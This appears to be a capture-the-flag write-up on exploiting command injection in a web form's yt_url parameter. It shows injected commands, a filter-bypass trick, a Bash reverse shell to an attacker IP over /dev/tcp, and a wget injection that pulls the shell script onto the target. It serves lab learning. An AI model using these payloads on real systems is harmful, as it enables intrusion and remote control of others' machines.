 Let's visit the target's website.

![1](https://github.com/Knign/Write-ups/assets/110326359/4bf6e3bc-de66-4e41-92cb-dc6e02e64ad5)

Let's provide the following input:

```
test_id
```

![2](https://github.com/Knign/Write-ups/assets/110326359/ba0bf18d-0db8-4f93-9b05-e9c73f2843ed)

As we can see, that did not provide us with any information.

Let's intercept the request in Burpsuite and check the response.

![3 2](https://github.com/Knign/Write-ups/assets/110326359/54196f6a-42c0-472a-ad73-b960ddf82c8f)

If we use the `--default-search` flag in our command, we get a different output.

```
yt_url=--default-search:id
```

![4](https://github.com/Knign/Write-ups/assets/110326359/5edff4ee-5b47-4c82-a2b8-33c0f5d43a32)

We can escape the flags by adding `--` before the command.

Let's change the `yt_url` parameter to the following to check if we have a command execution vulnerability on our hands:

```
yt_url=---;id;
```

![5](https://github.com/Knign/Write-ups/assets/110326359/34f00638-41f4-4765-9e51-7fbb7adc8df4)

Now, create a simple a Bash reverse shell script.

```
$ echo "bash -i >& /dev/tcp/10.17.48.138/9999 0>&1" > reverse_shell.sh
```

Let's set up a Python3 server on our machine.

```
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

We can now set the `yt_url` parameter to the following to download the reverse shell on the target.

```
yt_url=---;wget    http://10.17.48.138:8000/reverse_shell.sh;
```

Note that in order for this command to work, there needs to be a TAB between `wget` and `http` instead of a SPACE.

![6](https://github.com/Knign/Write-ups/assets/110326359/e8cb839d-b0e8-4b52-9665-5ac4700340aa)
